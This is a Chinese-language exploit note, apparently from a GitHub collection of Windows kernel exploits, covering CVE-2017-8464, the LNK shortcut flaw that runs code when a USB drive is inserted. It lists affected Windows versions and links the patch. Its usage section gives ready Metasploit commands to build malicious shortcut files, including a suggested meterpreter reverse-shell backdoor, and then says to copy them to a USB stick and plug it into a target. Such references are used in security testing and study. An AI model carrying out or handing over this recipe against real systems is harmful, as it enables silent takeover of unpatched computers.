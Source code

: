 ### CVE-2017-8464

#### 描述

该漏洞的原理同2010年美国和以色列入侵并破坏伊朗核设施的震网行动中所使用的穿透核设施隔离网络的漏洞（CVE-2010-2568）非常类似，当存在漏洞的电脑被插上保存有漏洞文件的U盘时，不需要额外操作，漏洞攻击程序就可以执行并完全控制用户的电脑系统

#### 影响版本

| Product             | Version | Update | Edition | Tested |
| ------------------- | ------- | ------ | ------- | ------ |
| Windows 10          | -       |        |         |        |
| Windows 10          | 1511    |        |         |        |
| Windows 10          | 1607    |        |         |        |
| Windows 10          | 1703    |        |         |        |
| Windows 7           | -       | SP1    |         |        |
| Windows 8.1         | -       |        |         |        |
| Windows Rt 8.1      | -       |        |         |        |
| Windows Server 2008 | -       | SP2    |         |        |
| Windows Server 2008 | R2      | SP1    | itanium |        |
| Windows Server 2008 | R2      | SP1    | x64     |        |
| Windows Server 2012 | -       |        |         |        |
| Windows Server 2012 | R2      |        |         |        |
| Windows Server 2016 | -       |        |         |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8464
```

#### 利用方式

直接用msf来利用

```
use exploits/windows/fileformat/cve_2017_8464_lnk_rce
set payload windows/x64/exec #要是x86使用windows/exec，还可以设置后门windows/x64/meterpreter/reverse_tcp
set cmd cmd.exe
set EXITFUNC thread
run
```

生成文件

![CVE-2017-8464_win7_x86_msf](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-8464_win7_x86_msf.png?raw=true)

运行命令把它拷贝到test目录下

```
cp -r /root/.msf4/local/ /root/test
```

![CVE-2017-8464_win7_x86_msf2](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-8464_win7_x86_msf2.png?raw=true)

接着把这些文件全部拷贝到U盘中，然后插上电脑即可

测试机器是虚拟机，所以需要打一个补丁**KB2533623**和装一个驱动**Intel(R)_USB_3.0_eXtensible_Host_Controller_Driver_5.0.4.43_v2**，然后USB设置为3.0，windows7的补丁放在了这里

```
https://github.com/Ascotbe/WinKernelhub/tree/master/Patch
```

GIF图如下

![1](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2017-8464_win7_x86.gif?raw=true)

